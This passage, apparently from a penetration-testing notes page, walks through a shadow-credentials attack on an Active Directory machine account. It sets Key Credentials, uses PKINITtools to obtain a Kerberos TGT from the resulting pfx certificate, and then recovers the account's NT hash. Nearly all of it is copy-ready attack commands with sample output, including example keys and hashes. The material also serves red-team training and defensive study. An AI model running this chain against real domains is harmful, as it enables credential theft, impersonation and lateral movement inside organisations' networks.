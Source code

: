 ```console
clear_shadow_creds <TARGET_HOSTNAME>$
```

```console {class="sample-code"}
# clear_shadow_creds ms01$
Found Target DN: CN=MS01,CN=Computers,DC=example,DC=com
Target SID: S-1-5-21-1045809509-3006658589-2426055941-1108

Shadow credentials cleared successfully!
```

```console
# Take Note of pfx path and password
set_shadow_creds <TARGET_HOSTNAME>$
```

#### 6. Request a TGT Using pfx File (In Local Linux)

```console
python3 gettgtpkinit.py '<DOMAIN>/<TARGET_HOSTNAME>$' <TARGET_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC_IP>
```

```console {class="sample-code"}
python3 gettgtpkinit.py example.com/MS01$ MS01.ccache -cert-pfx ../impacket/h6fAqHvi.pfx -pfx-pass LDyywqG39RKUx6kmjeHr -dc-ip 192.168.100.100
2024-04-02 16:17:58,897 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-04-02 16:17:58,907 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-04-02 16:18:07,594 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-04-02 16:18:07,594 minikerberos INFO     7ddf32e17a6ac5ce04a8ecbf782ca509ac2b5f88fc33b7b9e0682be85784ec0d
INFO:minikerberos:7ddf32e17a6ac5ce04a8ecbf782ca509ac2b5f88fc33b7b9e0682be85784ec0d
2024-04-02 16:18:07,597 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

#### 7. Get NT Hash (In Local Linux)

```console
python3 getnthash.py '<DOMAIN>/<TARGET_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```

```console {class="sample-code"}
$ python3 getnthash.py example.com/'ms01$' -key 7ddf32e17a6ac5ce04a8ecbf782ca509ac2b5f88fc33b7b9e0682be85784ec0d
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
59920e994636168744039017dcf49e54
```
